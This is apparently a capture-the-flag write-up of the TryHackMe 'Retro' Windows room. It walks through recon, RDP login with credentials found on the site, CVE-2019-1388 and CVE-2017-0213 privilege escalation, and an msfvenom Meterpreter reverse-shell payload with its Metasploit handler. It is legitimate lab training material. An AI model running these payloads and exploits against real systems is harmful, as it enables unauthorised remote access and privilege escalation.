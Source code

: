 # Retro

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

---

## Intro

| Room Info           | ![](.gitbook/assets/retro.png)            |
| :------------------ | ----------------------------------------- |
| 🔗 Name              | [Retro](https://tryhackme.com/room/retro) |
| 🎯 Target IP         | `10.10.181.110`                           |
| 📈 Difficulty level  | 🟢Easy                                     |
| 💲 Subscription type | Free                                      |
| 🪟 OS                | Windows                                   |

---

## Recon

```bash
mkdir retro
cd retro
nmap 10.10.181.110
    80/tcp   open  http
    3389/tcp open  ms-wbt-server

nmap -sV -sC -Pn -oA retro 10.10.181.110
```

```bash
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-05-13T11:52:02+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-05-12T11:48:35
|_Not valid after:  2023-11-11T11:48:35
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-05-13T11:51:57+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
```

Perform Web Server directories enumeration.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.181.110/FUZZ

[Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 281ms]
    * FUZZ: retro
```

The enumeration found a folder named **`/retro`**.

Use a browser to navigate to:

- `http://10.10.181.110/retro/index.php/2019/12/09/ready-player-one/`

> 📌 Wade user left a comment with his password

![](.gitbook/assets/image-20230513140001737.png)

Use the credentials to login to the target via the open RDP Port `3389`

- `Wade`:`parzival`

> I suggest to set the `Remmina` RDP resolution to a higher one, **`e.g`**
>
> - Open Remmina, `+` to create a Quick RDP Connect, select the resolution and `Save as Default`
>
> ![](.gitbook/assets/image-20230513142438083.png)

```bash
remmina -c rdp://wade@10.10.181.110

# It will open with the default set up resolution
```

-  🚩 Open the **`user.txt`** file on Wade's user desktop to get the first flag.

```bash
3b99f***************************

```

---

## Exploitation

Open `Internet Explorer` to initialize it.

Open `Google Chrome` and set it as **Default web browser** in Windows.

![](.gitbook/assets/image-20230513142712637.png)

The bookmarked link refers to the [CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) - Windows Certificate Dialog Elevation of Privilege Vulnerability.

Check the Recycle Bin and restore the `hhupd` file.

![](.gitbook/assets/image-20230513140747457.png)

Exploit the privesc vulnerability present in the Windows Certificate Dialog Box and run `cmd` with **Administrator** privileges.

![](.gitbook/assets/image-20230513141237572.png)

![](.gitbook/assets/image-20230513141306088.png)

- Even after the initialization of both the IE and Chrome browsers, there might not be any option for selecting the browser in the opened window.

![](.gitbook/assets/image-20230513152711279.png)

### Meterpreter

Generate a manual payload to get a Metasploit Meterpreter session on the target.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.65.48 LPORT=4444 -f exe -o unprivileged-payload.exe
```

```bash
# Start a webserver in the same payload directory
python -m http.server 80
```

Download the payload on the target browser from this link

- `http://10.18.65.48/unprivileged-payload.exe`

Open Metasploit and set up a handler to listen on the `4444` port

```bash
msfconsole -q

setg RHOSTS 10.10.181.110
setg RHOST 10.10.181.110
use exploit/multi/handler
# Same as the generated payload
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST 10.18.65.48 
set LPORT 4444
run
```

Run the `unprivileged-payload.exe` file on the target machine

![Wade Privileges Meterpreter](.gitbook/assets/image-20230513160120206.png)

Get `systeminfo` from the target and save the output to a file.

```bash
shell
systeminfo
```

![](.gitbook/assets/image-20230513170606987.png)

---

## Privilege Escalation

Exploit the [CVE-2017-0213 - Windows COM Elevation of Privilege Vulnerability](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

- Download the `CVE-2017-0213_x64.zip` package, unzip it and upload the **`CVE-2017-0213_x86.exe`** to the target.

```bash
wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/2b944b52ee30f8833a21f0805d2627ca1f15383a/CVE-2017-0213/CVE-2017-0213_x86.zip
```

```bash
# In the Meterpreter session
upload CVE-2017-0213_x86.exe
```

Run the `CVE-2017-0213_x86.exe` file from the Meterpreter session or using the RDP connection on the target.

```bash
shell
.\CVE-2017-0213_x86.exe
```

- Check the `CMD` as Administrator session on the target.

![Elevated CMD Session](.gitbook/assets/image-20230513171909558.png)

- 🚩 Read the `root.txt` file

```bash
cd c:\Users\Administrator\Desktop
type root.txt
7958b***************************
```

![](.gitbook/assets/2024-10-20_22-28-24_764.png)

- Remember that there can be other attack vectors to exploit target's vulnerabilities.

------

